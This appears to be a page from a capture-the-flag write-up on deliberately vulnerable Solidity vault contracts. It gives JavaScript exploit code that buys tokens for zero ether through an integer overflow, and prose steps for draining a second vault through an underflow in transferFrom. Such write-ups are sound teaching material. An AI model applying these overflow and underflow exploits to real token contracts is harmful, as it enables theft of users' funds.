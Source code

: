 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Connect to the vault contract as the player
const playerVault = vault.connect(player);

// Calculate the token amount that will cause an overflow
// 2^238 is chosen because when multiplied by 1 ether (10^18), 
// it will overflow exactly to 0 in Solidity 0.7.6
const numTokens = BigInt(1) << BigInt(238);

// Call buyTokens with 0 ether value
// Due to integer overflow, numTokens * TOKEN_PRICE will be 0
await playerVault.buyTokens(numTokens, { value: 0 });

// Verify that we received the tokens
const playerBalance = await vault.tokenBalances(playerAddress);
console.log("Player token balance:", playerBalance.toString());

// Call breachVault to complete the challenge
await playerVault.breachVault();
\end{verbatim}
\end{minipage}

\subsection*{Vault09: Less Is More}

To breach \texttt{Vault09}, you need to exploit an integer underflow vulnerability in the \texttt{transferFrom} function. The key observation is that the contract checks if the message sender has enough tokens but not whether the \texttt{from} address has enough tokens. This allows you to cause an underflow in the \texttt{tokenBalances[from] -= amount} operation.

First, deploy an attack contract that will interact with the vulnerable vault. Then, from your account (which starts with 1 token), approve the attack contract to spend tokens on your behalf. Next, have the attack contract call \texttt{transferFrom} to transfer more tokens than you actually have, causing an integer underflow in your token balance.
\end{document}
